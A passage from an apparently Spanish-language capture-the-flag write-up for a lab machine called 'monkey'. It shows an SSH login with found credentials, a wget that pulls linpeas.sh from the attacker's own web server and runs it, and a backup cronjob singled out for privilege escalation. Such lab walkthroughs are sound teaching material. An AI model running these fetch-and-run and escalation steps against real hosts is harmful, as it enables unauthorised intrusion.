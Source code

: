 Ahora nos conectamos mediantes ssh con las credenciales validas
{% highlight bash %}
ssh ┌──(cris98㉿kali)-[~/maquinas/monkey/]
└─$ ssh hackermentor@192.168.254.139
hackermentor@192.168.254.139's password: 
Linux monkey 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Oct  3 16:37:37 2022 from 192.168.254.129
hackermentor@monkey:~$
{% endhighlight %}
Ahora que tenemos el usuario `hackermentor` con un poco mas de privilegios ejecutamos nuevamente `./linpeas.sh`, si recordamos aun tenemos el servidor web que levantamos con python
{% highlight bash %}
hackermentor@monkey:~$ wget http://192.168.254.129:8083/linpeas.sh
descargamos el archive linpeas.sh
le damos permisos y ejecutamos
hackermentor@monkey:~$ chmod +x linpeas.sh
hackermentor@monkey:~$ ./linpeas.sh
{% endhighlight %}

<figure>
        <a href="/imagenes/maquinas/monkey/34.png"><img src="/imagenes/maquinas/monkey/34.png"></a>
</figure>
Encontramos un `cronjob` tarea programa el cual nos indica que podemos usar este servicio que hace backup para escalar privilegios.

Listamos los archivos y vemos el contenido de backup.sh
<figure>